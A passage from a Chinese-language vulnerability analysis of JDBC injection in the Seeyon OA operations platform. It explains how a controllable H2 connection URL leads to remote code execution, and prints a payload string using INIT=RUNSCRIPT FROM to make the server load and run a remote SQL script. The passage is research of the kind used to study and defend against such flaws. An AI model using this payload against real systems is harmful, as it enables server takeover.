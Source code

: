 在官网还可以查到这套系统，看上去应该是用于管理致远后台的平台，算是运维平台。这侧面也证明了**这套系统是一套独立的系统。**  
  
在com.seeyon.agent.sfu.server.apps.configuration.controller.ConfigurationController  
可以找到对应的testDBConnect  
方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2tK1Okmqa9f8FJO1CITfr20yjzetKx7euvdefQxxwaFLocEJn2jqVSw/640?wx_fmt=png&from=appmsg "")  
  
可以关注到相比原文当中的截图，现在加入了**对h2数据库连接的限制**  
```
params.put("dbUrl", dbUrl);if (dbUrl.startsWith("jdbc:h2"))  return JsonResult.success(StatusCodeEnum.FAILEDCODE.getKey(), ", null);
```  
  
继续跟进到testDBConnect  
中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2Ya8jKWD0FWC1nibAHwBeic2nfjpG7ia2hV7ib0WQA4vib68rOUnAHKbLnbw/640?wx_fmt=png&from=appmsg "")  
  
从这里可以找到可以**根据dburl前缀自由连接远程jdbc**的方法，并允许**自定义链接驱动类**  
## H2 jdbc注入导致RCE  
  
这部分内容其实不算是这篇文章的重点致远oa的问题，一般来说到**jdbc注入**之后就是**利用方式**的问题了，但这里还是顺带提一下。  
  
**关于jdbc的注入后利用方式**其实之前已经有过不少次相关的文章以及议题，下面这篇就是一篇总结的比较全的文章  
- https://paper.seebug.org/1832/  
  
- https://www.anquanke.com/post/id/203086  
  
其实jdbc可控**后续导致的二次利用方案相当复杂**，由于这不是这篇文章的内容，所以我们直接跳到对应的位置来看看。  
  
想要利用jdbc注入来调用H2进行进一步利用，其中有两个比较大的问题。  
- **需要相应的配置参数才能命令执行**  
  
- **由于不支持多行语句，需要找到能在单行里执行命令的方法**  
  
**H2的攻击利用的是Spring Boot H2 console的一个特性**，通过控制h2数据库的连接url，我们可以迫使spring boot去**加载远程的sql脚本并执行命令**，类似下面这样的请求  
```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```  
  
而这样的请求需要**如下的参数**  
```
spring.h2.console.enable=truespring.h2.console.setting.web-allow-others=true
```  
  
我们简单的看下源码  
  
在org.h2.engine.Engine#openSession  
中，发起连接是可以**通过INIT关键字来影响初始化数据库连接的配置**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2y504AYpzJFeqOALt0Oeyic4y8XibByOJ8Nxrafem5ujL3Kap20B2I32A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6URaM8IqWoZTTrsVVMOMd5f2PlXwPvdcibTd2bIrunmo3aFhwJ8Cl5QMhjg35X7p71LQ6fmmzkV5mkA/640?wx_fmt=png&from=appmsg "")  
  
**当我们使用RUNSCRIPT关键字发起远程连接时**，代码将会执行到org.h2.command.dml.RunScriptCommand#execute  
  